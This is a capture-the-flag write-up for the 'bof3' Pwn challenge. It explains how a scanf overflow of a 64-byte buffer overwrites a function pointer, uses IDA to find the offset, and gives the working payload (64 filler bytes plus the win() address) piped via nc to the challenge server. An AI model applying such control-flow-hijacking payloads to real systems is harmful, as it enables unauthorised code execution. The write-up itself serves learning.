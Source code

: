 # bof3
**Category:** Pwn

**Points:** 25

**Description:**

Author: kablaa

nc ctf.hackucf.org 9002

> **Files:** bof3, bof3.c, libpwnableharness32.so

## Write-up
This is a buffer overflow challenge, and the code file was provided.

Looking at the code, as with others, the important function is `handle_connection()`. It contains a `scanf()` call into a buffer of 64 chars, and a function pointer pointing to the `lose()` function:
```c
void handle_connection(int sock) {
	void (*fp)(); 
	char bof[64];
	
	fp = &lose;
	
	scanf("%s",bof);
	fp();
}
```

When the program runs it waits for input in the `scanf()`, and overflowing the buffer should overwrite the function pointer.

I tried sending 65 characters to the program:
```
> python -c "print('A'*65)" | ./bof3 
Segmentation fault (core dumped)
```
Then I tried 64 (fill the buffer, but no room for `NULL` terminator):
```
> python -c "print('A'*64)" | ./bof3 
Illegal instruction (core dumped)
```
Finally I tried 63:
```
> python -c "print('A'*63)" | ./bof3 
you suck!
```

Now to open the executable in IDA and see what's going on. I jump to the `handle_connection()` function and put a breakpoint just before the function pointer is set to the `lose()` function:

![Handle connection function](handle_connection.png)

Here we can see that `var_C` represents the function pointer on the stack,  and `var_4C` represents the location of the array. These are 64 bytes apart, so the function pointer comes straight after the array, meaning we could write 64 characters, and then the address of the win function. 

First I create a file containing 64 characters so I can pass it to the IDA debugger and see it appear on the stack to confirm what I think:
```
> python -c "print('A'*64)" > inp_file.txt
```
Now we run the debugger in IDA and watch the stack synchronised with `RBP` (blue highlighted byte at `0xFF901948`):

![Stack showing RBP](stack1.png)

The 4 yellow highlighted bytes are the function pointer. We can see them change when they are set to the `lose()` function:

![Stack showing FP change](stack2.png)

If we look at the code, we can confirm this is the location of the `lose()` function:

![Lose function location](lose_function.png)

And if we continue the program, our A characters appear right up to our function pointer:

![Stack showing As](stack3.png)

> **Note:** the function pointer address is changed slightly as the `NULL` terminator from the string has leaked into the address.

So if we follow our A characters with the address of the `win()` function, we should get our flag. So let's look at the `win()` function:

![Win function location](win_function.png)

we can see that the address is `0x080486EB`, so our final solution is:
```
> python -c "print('A'*64 + '\xeb\x86\x04\x08')" | nc ctf.hackucf.org 9002
```
> **Note:** The above works in Python2. As Python3 uses Unicode for the basic string, and `print()` expects Unicode, for Python3 use:  
  `python3 -c "import sys; sys.stdout.buffer.write(b'A'*64 + b'\xeb\x86\x04\x08')" | nc ctf.hackucf.org 9002`

This worked, and gave me the flag.
